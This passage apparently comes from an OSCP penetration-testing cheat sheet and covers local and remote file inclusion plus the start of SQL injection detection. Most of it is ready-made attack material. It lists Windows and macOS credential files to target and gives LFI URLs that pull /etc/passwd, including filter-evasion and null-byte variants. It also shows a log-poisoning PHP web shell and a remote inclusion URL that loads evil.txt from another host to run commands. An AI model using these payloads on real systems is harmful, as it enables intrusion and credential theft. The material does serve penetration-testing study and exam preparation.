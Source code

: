     *   LFI Windows Files:  
        %SYSTEMROOT%\repair\system  
        %SYSTEMROOT%\repair\SAM  
        %SYSTEMROOT%\repair\SAM  
        %WINDIR%\win.ini  
        %SYSTEMDRIVE%\boot.ini  
        %WINDIR%\Panther\sysprep.inf  
        %WINDIR%\system32\config\AppEvent.Evt

    *   LFI OSX Files:  
        /etc/fstab  
        /etc/master.passwd  
        /etc/resolv.conf  
        /etc/sudoers  
        /etc/sysctl.conf

    *   LFI - Download passwords file  
        _http://$ip/index.php?page=/etc/passwd_  
        _http://$ip/index.php?file=../../../../etc/passwd_

    *   LFI - Download passwords file with filter evasion  
        _http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd_

    *   Local File Inclusion - In versions of PHP below 5.3 we can terminate with null byte  
        GET /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    *   Contaminating Log Files `<?php echo shell_exec($_GET['cmd']);?>`

    *   For a Remote File Inclusion look for php code that is not sanitized and passed to the PHP include function and the php.ini file must be configured to allow remote files

        _/etc/php5/cgi/php.ini_ - "allow_url_fopen" and "allow_url_include" both set to "on"

        `include($_REQUEST["file"].".php");`

    *   Remote File Inclusion

        `http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt`

        `<?php echo shell\_exec("ipconfig");?>`

*   ## [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#database-vulnerabilities)Database Vulnerabilities

    *   Playing with SQL Syntax A great tool I have found for playing with SQL Syntax for a variety of database types (MSSQL Server, MySql, PostGreSql, Oracle) is SQL Fiddle:

    [http://sqlfiddle.com](http://web.archive.org/web/20171113221652/http://sqlfiddle.com/)

    Another site is rextester.com:

    [http://rextester.com/l/mysql_online_compiler](http://web.archive.org/web/20171113221652/http://rextester.com/l/mysql_online_compiler)

    *   Detecting SQL Injection Vulnerabilities.

        Most modern automated scanner tools use time delay techniques to detect SQL injection vulnerabilities. This method can tell you if a SQL injection vulnerability is present even if it is a "blind" sql injection vulnerabilit that does not provide any data back. You know your SQL injection is working when the server takes a LOooooong time to respond. I have added a line comment at the end of each injection statement just in case there is additional SQL code after the injection point.
